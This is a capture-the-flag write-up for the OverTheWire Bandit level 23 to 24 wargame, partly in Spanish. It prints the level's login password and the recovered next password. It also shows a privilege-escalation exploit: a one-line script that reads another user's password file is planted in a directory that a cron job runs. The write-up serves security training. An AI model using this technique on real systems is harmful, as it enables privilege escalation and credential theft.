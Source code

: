# Bandit level 23 → Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
bandit23@bandit:~$ ls -la /etc/cron.j
ls: cannot access '/etc/cron.j': No such file or directory
bandit23@bandit:~$ ls -la /etc/cron.d
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  1 06:30 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23 13:49 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/osc_hh
bandit23@bandit:~$ cd /tmp/osc_hh
bandit23@bandit:/tmp/osc_hh$ echo "cat /etc/bandit_pass/bandit24 > /tmp/osc_hh/password"
cat /etc/bandit_pass/bandit24 > /tmp/osc_hh/password
bandit23@bandit:/tmp/osc_hh$ echo "cat /etc/bandit_pass/bandit24 > /tmp/osc_hh/password" > osc_hh.sh
bandit23@bandit:/tmp/osc_hh$ cat osc_hh.sh
cat /etc/bandit_pass/bandit24 > /tmp/osc_hh/password
bandit23@bandit:/tmp/osc_hh$ chmod 777 osc_hh.sh
bandit23@bandit:/tmp/osc_hh$ touch password
bandit23@bandit:/tmp/osc_hh$ chmod 666 pasword
chmod: cannot access 'pasword': No such file or directory
bandit23@bandit:/tmp/osc_hh$ chmod 666 password
bandit23@bandit:/tmp/osc_hh$ ls -la
total 192
drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:32 .
drwxrwx-wt 4821 root     root     184320 Sep  6 13:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Sep  6 13:31 osc_hh.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Sep  6 13:32 password
bandit23@bandit:/tmp/osc_hh$ cp osc_hh.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/osc_hh$ date
Tue Sep  6 01:35:00 PM UTC 2022
bandit23@bandit:/tmp/osc_hh$ date
Tue Sep  6 01:35:44 PM UTC 2022
bandit23@bandit:/tmp/osc_hh$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/osc_hh$

## Notas adicionales

## Referencias
